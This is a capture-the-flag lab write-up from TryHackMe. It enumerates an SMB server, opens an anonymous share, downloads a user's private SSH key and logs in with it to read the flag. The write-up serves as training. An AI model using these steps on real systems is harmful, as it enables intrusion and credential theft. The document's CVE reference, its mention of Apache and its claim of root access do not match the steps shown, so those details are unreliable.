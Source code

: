 # Documentation: Exploiting SMB #01

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access a server and capture the flag by enumerating an SMB and exploiting its vulnerabilities to exfiltrate sensitive data and gain access to the server and capture the flag

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -Pn 10.10.242.131`
    - SMB Enumeration: 
		- `enum4linux -U 10.10.242.131`
		- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
	- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
	- Press enter on the password because there is no password set
	- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)

	- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)

	- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)

	- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)

	- To download type `get id_rsa`
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)

	- Type `chmod 600` id_rsa to change the permissions
![chmod](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/c0217817-5203-46c4-9743-66995a57566a)

	- Type `ssh cactus@10.10.242.131 -i id_rsa` to access the server
![Screenshot 2024-05-20 190916](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/b61b84c7-f850-4c50-b0bd-147bcbfecbfd)

	- Type `ls`  to show files then `cat smb.txt` to view text file
![Screenshot 2024-05-20 191157](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/145c3e10-0603-4e3e-a297-f55fee5498ee)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

